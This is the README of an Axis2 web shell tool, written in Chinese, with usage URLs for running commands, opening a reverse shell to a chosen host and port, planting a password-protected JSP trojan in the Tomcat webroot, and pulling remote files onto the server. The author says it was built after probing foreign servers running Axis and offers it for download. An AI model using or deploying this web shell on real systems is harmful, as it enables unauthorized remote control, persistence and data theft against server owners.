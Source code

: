 axis2
=========

axis2 web shell  
author : Svti  
url : https://github.com/Svti/Axis2Shell  

使用介绍：  

1、命令执行  
http://1.1.1.1/services/config/exec?cmd=whoami  
(不说了，执行命令。注意:xml换行没有处理好)  

2、反弹shell  
http://1.1.1.1/services/config/shell?host=1.1.1.1&port=5555  
(Linux则使用bash反弹shell，Windows则会进行socket执行shell)  

3、文件上传  
http://1.1.1.1/services/config/upload?path=/opt/tomcat/webapps/ROOT/shell.jsp  
(会把resource目录下面的one.txt 写成shell.jsp，注意：全路径，带*文件名)  

4、文件下载  
http://1.1.1.1/services/config/download?url=http://www.ooo.com/mm.txt&path=/opt/tomcat/webapps/ROOT/shell.jsp  
(会把这个URL的文件写成shell.jsp，注意：全路径，带*文件名)  


5、class目录查看  
http://1.1.1.1/services/config/getClassPath  
(会显示当前class的路径，方便文件上传)  

ps:  
趁周末休息，看了几个国外的机器有 axis的 项目，特地去找了@园长的Cat.aar工具，发现真心不好使。  

1、反弹shell 鸡肋，好多错误 ，ls / 都不行。   

2、没有文件上传功能。这个对于一个渗透着来说很重要  

于是自己写了个，希望大家喜欢。  

源码已经上github https://github.com/Svti/Axis2Shell  

aar 文件https://github.com/Svti/Axis2Shell/blob/master/config.aar也在github上面，还有什么问题，可以在下面评论   


注意：   

1、相同文件名的aar文件只能上传一次，虽说是remove Service了，服务器上面的还在。想要继续使用，请rename   

2、默认的jsp一句话木马是/resource/one.txt，可以自己修改。默认密码是wooyun，发布版本里面放的是one.jsp，一向鄙视伸手党  
3、Linux反弹shell 会在当前目录生成一个wooyun.sh的文件，当shell断开后会自动删除  

